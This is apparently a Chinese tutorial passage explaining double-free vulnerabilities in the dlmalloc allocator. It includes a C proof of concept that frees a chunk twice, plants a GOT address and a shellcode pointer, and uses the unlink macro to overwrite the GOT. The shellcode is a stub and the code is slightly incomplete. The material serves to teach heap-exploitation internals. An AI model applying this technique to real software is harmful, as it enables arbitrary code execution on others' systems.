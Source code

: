 ![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207142529.png)

当已分配的内存块被free释放后，必须被链接到适当的双链表中。在dlmalloc的一些版本中，这是由frontlink代码段执行的，frontlink代码段在合并相邻内存块（如果能合并的话）后执行。存储在双链表中的块按大小降序排列。

调用frontlink代码段后，筐的前向指针和后向指针引用这个被释放的块，并且这个块的前向和后向指针也引用这个筐。这是预期的行为，因为我们现在有一个包含此空闲块的空链表。

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207142613.png)

但是，如果P所引用的内存块被第二次释放，该数据结构就会被破坏：筐的前向和后向指针仍然引用这个块，但是块的前向指针和后向指针却变成自引用了（这时候你应该回忆一下frontlink代码段了）。

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207142648.png)



如果用户请求一个与这个自引用块大小相同的内存块，则内存分配器将试图从这个筐中分配一块内存。由于筐的前向指针仍然指向内存块，因此该内存块可以被找到并且返回给用户。然而，当调用unlink宏从筐中移除内存块时并不会移除该内存块（回忆一下unlink代码段？）。因为该内存块的前向指针后后向指针都是自引用的，所以unlink对该内存块无效，该内存块永远不会被移除！

结果，如果再请求分配一块相同大小的内存块，将再次返回该内存块给用户。一旦数据结构被以这种方式破坏，malloc就可以被利用去执行任意代码了（利用unlink解链技术）



**一个简化的例子**

```c
 1. static char *GOT_LOCATION = (char *)0x0804c98c;
 2. static char shellcode[] =
 3.   "\xeb\x0cjump12chars_"    /* jump */
 4.   "\x90\x90\x90\x90\x90\x90\x90\x90"
 5.
 6. int main(void){
 7.   int size = sizeof(shellcode);
 8.   void *shellcode_location;
 9.   void *first, *second, *third, *fourth;
10.   void *fifth, *sixth, *seventh;
11.   shellcode_location = (void *)malloc(size);
12.   strcpy(shellcode_location, shellcode);
13.   first = (void *)malloc(256);
14.   second = (void *)malloc(256);
15.   third = (void *)malloc(256);
16.   fourth = (void *)malloc(256);
17.   free(first);		//初次释放，进入缓存筐
18.   free(third);		//third进入缓存筐，first也在
19.   fifth = (void *)malloc(128);		//third从缓存筐中被取出128字节，first被送入普通筐
20.   free(first);		//重复释放
21.   sixth = (void *)malloc(256);		//此时sixth和first指向的是同一块内存
22.   *((void **)(sixth+0))=(void *)(GOT_LOCATION-12);	//用户数据区第一个4字节	
23.   *((void **)(sixth+4))=(void *)shellcode_location;	//用户数据区第二个4字节
24.   seventh = (void *)malloc(256);		//会调用unlink宏
25.   strcpy(fifth, "something");
26.   return 0;
27. } 
```

当first被初次释放时(17行)，它被放入一个缓存筐而不是普通筐中。释放third块会将first块移到一个普通筐中。对second和fourth块的分配，可以阻止first块与third块的合并。第19行分配fifth块会造成内存从third块处分开，作为一个副作用，还会导致first块被转移到一个普通筐中（由于缓存筐中唯一的一次重分配的机会已经过去了）。到这里内存的环境已经配置成功。
